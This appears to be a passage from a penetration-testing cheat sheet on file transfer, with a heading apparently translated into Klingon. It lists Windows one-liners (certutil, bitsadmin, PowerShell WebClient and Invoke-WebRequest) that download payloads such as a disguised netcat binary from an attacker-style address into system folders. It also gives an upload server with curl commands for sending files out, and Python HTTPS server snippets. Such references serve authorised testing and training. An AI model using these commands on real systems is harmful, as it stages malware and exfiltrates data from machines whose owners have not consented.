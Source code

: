 **Windows** *Windows* 

**Windows**
```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf

#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```
### QapHa'wI'pu' vItlhutlh

* [**SimpleHttpServerWithFileUploads**](https://gist.github.com/UniIsland/3346170)
* [**SimpleHttpServer printing GET and POSTs (also headers)**](https://gist.github.com/carlospolop/209ad4ed0e06dd3ad099e2fd0ed73149)
* Python module [uploadserver](https://pypi.org/project/uploadserver/):
```bash
# Listen to files
python3 -m pip install --user uploadserver
python3 -m uploadserver
# With basic auth:
# python3 -m uploadserver --basic-auth hello:world

# Send a file
curl -X POST http://HOST/upload -H -F 'files=@file.txt'
# With basic auth:
# curl -X POST http://HOST/upload -H -F 'files=@file.txt' -u hello:world
```
### **HTTPS Server**
```python
# from https://gist.github.com/dergachev/7028596
# taken from http://www.piware.de/2011/01/creating-an-https-server-in-python/
# generate server.xml with the following command:
#    openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
# run as follows:
#    python simple-https-server.py
# then in your browser, visit:
#    https://localhost:443

### PYTHON 2
import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 443), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
###

### PYTHON3
from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl

httpd = HTTPServer(('0.0.0.0', 443), BaseHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, certfile="./server.pem", server_side=True)
httpd.serve_forever()
```